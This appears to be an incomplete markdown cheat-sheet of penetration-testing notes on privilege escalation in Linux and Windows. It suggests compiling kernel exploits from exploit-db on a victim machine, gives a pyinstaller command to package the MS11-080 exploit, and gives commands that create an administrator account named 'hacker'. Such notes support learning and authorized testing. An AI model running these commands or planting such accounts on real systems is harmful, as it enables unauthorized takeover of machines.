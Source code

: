 # Privilege Escalation

## Privilege Escalation Exploits in Linux

You have ssh credentials for a user and want to use machine to pivot but you do not have root privileges

* Check kernel version
  * look under exploit db

download exploit to victim machine and compile

## Privilege Escalation Exploit in Windows

MS11-080 Afd.sys python script

`python pyinstaller.py --onefile ms11-080.py`
* to convert to exe

`net user hacker hacker /add`

`net localgroup administrators hacker /add`

## Abusing weak Service Permissions on Windows



## Abusing weak Service Permissions on Linux
